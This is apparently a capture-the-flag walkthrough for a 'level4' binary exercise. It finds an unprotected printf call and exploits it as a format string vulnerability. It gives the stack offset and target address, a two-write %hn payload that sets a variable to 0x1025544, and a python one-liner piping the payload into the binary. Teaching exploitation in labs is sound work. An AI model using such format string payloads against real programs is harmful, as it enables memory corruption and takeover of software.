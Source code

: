 While decompiling the binary we can observe the use of the function `printf` without any protection. We could then exploit this function to write a wanted value in a desired variable.
For exemple, we could write `0x1025544` in the variable `m`.

## Investigation

In the same way that in [level3](../level3/walkthrough.md), we know that our buffer is the 7th element in stack, and that `m` is located at `0x08049810`.

## Exploit

For optimisation reasons we will write our value by 2 times with a exploit like
```
<target address + 2><target address>%<upper value>x%<argument>$n%<lower value>x%<argument + 1>$n
```

* First we will write the upper side of the vlaue `0x0102` or `0d258` minus the 8 bytes already written, `258 - 8 = 250` at `0x08049812`
* And the lower side `0x5544` or `0d21828` minus the 258 bytes already written `21828 - 250 - 8 = 21570` at `0x08049810`

It will give us the payload
```
\x12\x98\x04\x08\x10\x98\x04\x08%250x%12$hn%21570x%13$hn
```
and the command
```shell
python -c 'print "\x12\x98\x04\x08\x10\x98\x04\x08%250x%12$hn%21570x%13$hn"' | ./level4
```
